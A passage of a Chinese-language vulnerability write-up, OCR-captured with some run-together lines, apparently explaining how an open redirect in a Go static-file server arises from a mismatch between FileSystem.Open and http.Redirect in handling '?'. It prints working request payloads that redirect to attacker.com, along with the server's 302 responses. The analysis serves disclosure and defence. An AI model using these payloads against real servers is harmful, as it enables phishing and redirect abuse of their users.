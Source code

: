 > 问题即答案  
 *?*  
  
- • opt.FileSystem.Open(file)  
 将 ?  
 视为普通字符。  
  
- • http.Redirect(path)  
 将 ?  
 解释为URL参数的开始。  
  
这意味着 /public/\attacker.com/?/../../../..  
 会被处理为：  
  
在 opt.FileSystem.Open()  
 中 — >  
- • /public/\attacker.com/?/../../../..  
 解析为 ""  
，  
/staticfiles/etc/etc/  
 + ""  
 是一个有效的文件夹。  
  
在 http.Redirect()  
 中 →  
- • /public/\attacker.com/?/../../../..  
 --> ?  
 后面的内容被视为查询字符串，不作为路径解析。  
  
带 ?  
 的请求 -> %3f  
：  
```
GET /public/\attacker.com/%3f/../.. HTTP/1.1Host: 192.168.100.2:3000HTTP/1.1 302 FoundLocation: /public/\attacker.com/?/../../
```  
# 最终payload  
  
URL /public/\attacker.com/?/../../../..  
 需要被解析成一个以 /\  
 开头的完整URL。  
  
我简单地使用了这个路径：/public/../\attacker.com/?/../../../..  
  
当 http.Redirect()  
 解析路径时，会移除 /public  
 部分。  
  
请求：  
```
GET /public/../\attacker.com/%3f/../../../../../.. HTTP/1.1Host: 192.168.100.2:3000HTTP/1.1 302 FoundLocation: /\attacker.com/?/../../../../../../
```  
# 摘要图解  
  